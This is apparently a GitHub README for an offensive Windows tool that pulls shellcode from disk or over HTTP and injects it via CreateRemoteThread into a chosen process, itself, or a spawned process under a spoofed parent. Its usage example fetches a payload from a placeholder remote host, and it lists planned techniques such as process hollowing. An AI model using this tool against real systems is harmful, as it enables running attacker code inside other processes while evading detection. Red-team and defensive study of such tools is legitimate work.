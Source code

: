 # ProcessInjection

This fork of process injection allows for dynamically pulling shellcode (in bin or base64 format) from either the disk or over HTTP as opposed to embedding the shellcode in the binary.

Additional Techniques yoinked from 3xpl01tc0d3r: https://github.com/3xpl01tc0d3r/ProcessInjection/blob/master/ProcessInjection/Program.cs

## Usage

```
Usage: ProcessInjection.exe <pid|self> <binlocation> <bintype>");
    Example: ProcessInjection.exe self http://x.x.x.x/app.b64 b64");
    Example: ProcessInjection.exe 1000 C:\Temp\app.bin bin");
```

## Target and Format

The `targ` argument can point to a URL or path on disk. URLs must start with http:// or https://. This file should contain your shellcode. .Net shellcode can be generated via Donut by TheWover.

The `form` argument tells the runner whether the shellcode is in "binary" format (default) or "base64. Valid values are "bin", "binary", "base64", and "b64". If encoded, the runner will decode it.

## Injection Techniques

The `meth` argument tells the runner what technique to use for injection. Right now, only "simple" injection is supported (default) via CreateRemoteThread.

## Parent Spoofing vs PID

You can either target a live process (PID / live mode) to inject into or you can use parent spoofing. PID mode requires the use of the `pid` arugment while parent spoofing requires both `parent` and `spawn`.

### PID / Live Mode

The `pid` value accepts a valid PID, a program to search for (explorer.exe/notepad.exe), or "self". When searching, the pid is resolved from the current session so the process needs to be in the same session. For self, the runner will just inject into itself and wait forever.

### Parent Mode

The `parent` argument can be either a valid running PID or a program name (explorer/program.exe). When searching for the program name, a running PID for that program must exist in the same session.

The `spawn` argument tells the runner which program to spawn and inject into. It can either be a fully qualified path to an EXE or a basename like "explorer.exe". The runner will search the \$PATH environment variable for the executable.

## Known Issues

- cmd.exe does not work with spawn.

### References

- .Net ShellCode https://github.com/TheWover/donut
- Parent Spoofing: https://github.com/3xpl01tc0d3r/ProcessInjection/blob/master/ProcessInjection/Program.cs

## Todos:

- Accept "browser" for parent/spawn/pid arguments and autofind targets
- Process hollowing
- APC Queue
- Clean up Win32
- Simple targets and keys
- Parseable targets via regex
